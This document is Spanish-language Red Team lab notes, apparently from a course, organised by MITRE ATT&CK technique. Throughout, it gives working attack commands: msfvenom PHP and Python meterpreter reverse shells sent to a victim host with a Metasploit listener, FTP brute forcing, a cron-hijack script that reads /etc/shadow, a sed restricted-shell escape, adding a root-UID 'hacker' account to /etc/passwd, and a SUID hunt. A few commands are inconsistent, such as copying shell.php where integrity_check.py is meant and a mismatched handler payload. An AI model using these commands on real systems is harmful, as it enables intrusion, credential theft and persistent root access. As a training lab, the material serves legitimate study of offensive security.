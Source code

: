 # Laboratorio 12-13. Técnicas de Red Team a través del MITRE ATT&CK (Parte 2)

## Bloque 1: MITRE ATT&CK fase 4. TA0002. Execution (continuación) 

### Ejercicio L12B1_METERPRETER: Meterpreter para explotación (T1569. System Services)
Podemos ver los workspaces de metasploit, crearlos y borrarlos.
```sh
workspace
workspace -a <nombre>
workspace -d <nombre>
workspace <nombre del workspace>
```

Podemos ejecutar nmap desde metasploit.
```sh
db_nmap -sV <IP>
```

Podemos buscar exploits en la base de datos de Metasploit.
```sh
search <PALABRAS CLAVE>
```

Para usar un exploit
```sh
use <exploit> - set payload <payload> - show options - set options <…> - exploit
```

Podemos ver la lista de payloads
```sh
show payloads
```

Podemos obtener información de un exploit
```sh
info <nombre completo del exploit>
```

### Payloads con msfvenom y multi/handler
Creamos un payload
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.12.2 LPORT=4444 -f raw > shell.php
```

Lo transferimos a la víctima
```sh
scp shell.php testUser@192.168.12.3:/var/www/html/
```

Ahora en la máquina atacante ponemos el multi/hander en escucha
```sh
msfconsole

use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.12.2
set LPORT 4444
run
```

Ahora, cuando alguien acceda a la ruta donde se encuentra el exploit, obtendremos la sesión de meterpreter.
```sh
curl http://192.168.12.3/shell.php
```

Para realizar fuerza bruta contra FTP desde msf.
```sh
search ftp_login
use 0
set RHOST <IP_VICTIMA>
set USERNAME <nombre del usuario>
set PASS_FILE <archivo con contraseñas>
run
```
## Bloque 2: MITRE ATT&CK fase 6: TA0004. Privilege scalation

### Escalada de privilegios a través de trabajos cron: Exfiltración de información privada (T1053. Scheduled Task/Job)
Podemos modificar archivos que ejecutan tareas cron para saltarnos diversas restricciones de seguridad. Si una tarea ejecuta un archivo python, podemos modificarlo para que nos muestre, por ejemplo, /etc/shadow

La información sobre las tareas programadas se encuentra en /etc/crontab. Los outputs de estas tareas est.an en /var/log/cron.log

```py
import os

shadow_file_path = '/etc/shadow'

if os.path.exists(shadow_file_path) and os.path.isfile(shadow_file_path):
    try:
        with open(shadow_file_path, 'r') as file:
            content = file.read()
            print(content)
    except PermissionError:
        print("Permiso denegado: Necesitas ser root para leer este archivo.")
else:
    print("/etc/shadow no existe o no es un archivo.")

```

### Escalada de privilegios mediante la sustitución de ejecutables / dependencias: Reverse shells de Msfvenom (T1053. Scheduled Task/Job)
Procedemos igual que antes
```sh
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.12.2 LPORT=4444 -f raw > integrity_check.py
```

Lo transferimos a la víctima
```sh
scp shell.php testUser@192.168.12.3:/tmp/integrity_check.py
```

Ahora en la máquina atacante ponemos el multi/hander en escucha
```sh
msfconsole

use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.12.2
set LPORT 4444
run
```

Y esperamos a que la tarea se ejecute, con lo que nos dará acceso al sistema.

## Bloque 3: MITRE ATT&CK fase 6: TA0004. Privilege scalation (continuación)

### Romper restricciones y ocultar actividades (T1548. Abuse Elevation Control Mechanism)
Si tenemos una consola restringida podemos saltarnos esta restricción con el comando sed
```sh
sed -n '1e exec sh 1>&0' /etc/hosts
```
Ejecutando esto obtendremos una consola si restricciones.

### Identificación de programas sudo (T1548. Abuse Elevation Control Mechanism)
Se puede comprobar la lista de programas que podemos ejecutar con sudo con
```sh
sudo -l
```

### Generar una contraseña válida para un usuario de Linux (T1078. Valid Accounts)
Podemos generar el hash de una contraseña con mkpasswd
```sh
mkpasswd --method=SHA-256
```

Y introducir una entrada en /etc/passwd
```sh
hacker:$6$randomsalt$Xk3kf8NznO3AdU.dkjdfk...:0:0:root:/root:/bin/bash
```

Podemos loguearnos para comprobar que funciona
```sh
su - hacker
```

### Identificación de programas SUID (T1548. Abuse Elevation Control Mechanism)
Los archivos con los bits SETUID o SETGID activos nos permiten que un programa se ejecute temporalmente con los privileguos del propietario del archivo para realizar una tarea que los requiera.
```sh
find / -perm -u=s -type f 2>/dev/null
chmod +s                                    #Activa el bit
```

### Escalada de privilegios a través de programas SUID (T1548. Abuse Elevation Control Mechanism)

### Escalada de privilegios potencial a través de técnicas de inspección ejecutables (T1078. Valid Accounts)
Podemos inspeccionar archivos ejecutables para buscar posibles credenciales hardocdeadas
```sh
strings <RUTA_ARCHIVO>
```